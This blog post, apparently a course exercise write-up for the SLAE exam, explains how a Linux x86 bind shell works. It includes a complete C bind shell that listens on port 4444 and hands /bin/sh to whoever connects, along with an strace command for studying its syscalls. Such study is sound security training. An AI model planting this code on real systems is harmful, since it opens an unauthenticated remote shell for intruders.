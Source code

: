 ```yaml
---
layout: post
title: SLAE Exercise 1 - Bind Shell
subtitle: Linux x86 Bind Shell
tags: [SLAE]
---
```


**Overview**

The first task of the SLAE exam requires a bind shell to be written. The requirements for this were as follows:
	- Binds to a port.
	- Executes a shell on an incoming connection.
	- The port number should be easily configurable within the shell code. 

**Requirements**

To start, it is best to find out what is needed to create a bind shell in a higher level language, and how each of all of these components work. First of all, what is a bind shell?  A bind shell is a shell that binds to a specific port on the target that listens to incoming connections. When a device connects to this port, a shell will be presented. So what is needed from a bind shell? It needs to:

- Be waiting for an incoming connection - bind to a port. 
- Provide the incoming connection with a shell by utilising execve (syscall 11). 

The following C taken from [here] (https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/), was utilised to determine what was needed to create a bind shell:

~~~
#include <stdio.h> 
#include <sys/types.h>  
#include <sys/socket.h> 
#include <netinet/in.h> 
int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 
struct sockaddr_in hostaddr;            // server aka listen address
int main() 
{ 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 
    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order
    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 
    // Listen for incoming connections 
    listen(host_sockid, 2); 
    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 
    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 
    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 
    return 0; 
}
~~~

Using Strace along with the complied C bind shell, it can be seen exactly what Syscalls are required to write a bind shell. The command to run the program with strace was as follows:
~~~
	Sudo strace ./bind
~~~
The open port was connected to so that the entirety of the program running could be observed with strace. The following was observed:

![Crepe](https://image.ibb.co/gQbbNn/C_Bind_Strace.png)

![Local Image](./img/SLAE_Bind/C_Bind_Strace.png)
